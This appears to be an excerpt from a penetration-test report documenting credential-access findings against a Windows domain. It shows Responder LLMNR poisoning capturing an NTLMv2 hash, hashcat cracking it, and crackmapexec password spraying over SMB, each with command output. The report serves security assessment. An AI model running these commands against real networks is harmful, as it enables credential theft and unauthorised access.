 
### 🔑 Phase 3: Credential Access Evidence

**LLMNR Poisoning - Hash Capture**
```bash
# Responder Execution
sudo responder -I eth0 -wFv

[+] Listening for events...
[*] [LLMNR]  Poisoned answer sent to 10.50.1.78 for name filesrv01
[*] [LLMNR]  Poisoned answer sent to 10.50.1.78 for name filesrv01
[SMB] NTLMv2-SSP Client   : 10.50.1.78
[SMB] NTLMv2-SSP Username : VANGUARDFS\jthompson
[SMB] NTLMv2-SSP Hash     : jthompson::VANGUARDFS:1122334455667788:8A3D2E9C7F1B4A6D5C8E0F9A7B6C5D4E:0101...

# TIME TO CAPTURE: 12 minutes from Responder start
```

**Hash Cracking Evidence**
```bash
# Hashcat Cracking Session
hashcat -m 5600 captured_hash.txt rockyou.txt

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: jthompson::VANGUARDFS:1122334455667788:8A3D...
Time.Started.....: Mon Sep 14 15:23:12 2025 (8 mins, 34 secs)
Time.Estimated...: Mon Sep 14 15:31:46 2025 (0 secs)

Recovered........: 1/1 (100.00%) Digests
Progress.........: 14523456/14344385 (101.25%)
Rejected.........: 0/14523456 (0.00%)

Candidates.#1....: Summer2024! <- CRACKED PASSWORD

# EVIDENCE: Password cracked in 8 minutes 34 seconds
```

**Password Spraying Results**
```bash
# Spray Attempt
crackmapexec smb 10.50.2.11 -u users.txt -p 'Summer2024!' --continue-on-success

SMB         10.50.2.11      445    VFS-DC-02        [+] VANGUARDFS\jthompson:Summer2024! ✓
SMB         10.50.2.11      445    VFS-DC-02        [-] VANGUARDFS\mrodriguez:Summer2024!
SMB         10.50.2.11      445    VFS-DC-02        [-] VANGUARDFS\sql_service:Summer2024!
SMB         10.50.2.11      445    VFS-DC-02        [-] VANGUARDFS\backup_admin:Summer2024!

# Second spray with different pattern
crackmapexec smb 10.50.2.11 -u users.txt -p 'Spring2024!' --continue-on-success

SMB         10.50.2.11      445    VFS-DC-02        [-] VANGUARDFS\jthompson:Spring2024!
SMB         10.50.2.11      445    VFS-DC-02        [-] VANGUARDFS\mrodriguez:Spring2024!
SMB         10.50.2.11      445    VFS-DC-02        [+] VANGUARDFS\sjenkins:Spring2024! ✓

# SUCCESS RATE: 2/11 users (18%)
```
